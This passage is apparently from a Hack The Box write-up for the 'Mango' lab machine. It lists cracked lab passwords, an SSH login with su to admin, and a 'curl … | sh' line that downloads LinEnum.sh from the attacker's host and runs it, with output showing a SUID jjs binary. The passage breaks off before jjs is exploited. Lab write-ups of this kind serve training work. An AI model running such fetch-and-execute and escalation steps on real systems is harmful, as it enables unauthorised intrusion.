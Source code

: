 I just replace `admin` by `mango` and run it again. I got the following passwords now:

admin: `t9KcS3>!0B#2`
mango: `h3mXK8RhU~f{]f5H`

## Getting a shell as user admin

I can SSH to the machine and su to `admin` since I also have the password for that user:

![](/assets/images/htb-writeup-mango/shell1.png)

## Privesc using jjs

With [LinEnum.sh](https://github.com/rebootuser/LinEnum) I see there's a SUID file for `jjs`:

```
admin@mango:/home/admin$ curl 10.10.14.11/LinEnum.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 46108  100 46108    0     0   229k      0 --:--:-- --:--:-- --:--:--  228k
-e 
#########################################################
-e # Local Linux Enumeration & Privilege Escalation Script #
-e #########################################################
-e # www.rebootuser.com
-e # version 0.98
[...]
-e [+] Possibly interesting SUID files:
-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-e 
```
